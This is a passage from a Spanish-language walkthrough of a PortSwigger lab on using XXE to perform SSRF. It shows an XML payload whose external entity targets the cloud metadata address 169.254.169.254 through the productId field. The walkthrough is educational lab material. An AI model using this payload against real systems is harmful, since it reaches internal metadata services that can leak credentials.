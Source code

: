      <img src="/assets/images/portswigger/exploiting_xxe_to_perform_ssrf_attacks/3.png" width="1000">
</p><br>


Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:


```plaintext
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
Y enviamos el paquete, observamos lo siguiente:

<p align="center">